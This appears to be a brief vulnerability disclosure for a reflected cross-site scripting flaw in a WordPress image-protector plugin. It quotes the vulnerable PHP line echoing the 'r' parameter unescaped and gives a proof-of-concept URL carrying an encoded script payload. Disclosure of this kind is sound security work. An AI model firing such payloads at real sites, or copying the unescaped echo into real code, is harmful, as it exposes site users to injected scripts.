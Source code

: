 CWE-79 	Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

Description :
There is a reflected XSS vulnerability in the following php code ./defa-online-image-protector/redirect.php:
1:<h1> We detect that you edit our website so we redirect you to this page. <a href="<?php echo $_GET['r']; ?>">Click Here to Rediect Back to your page</a></h1>
The variable r appears to send unsanitized data back to the users browser.

POC : 
Target.com//wp-content/plugins/defa-online-image-protector/redirect.php?r=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
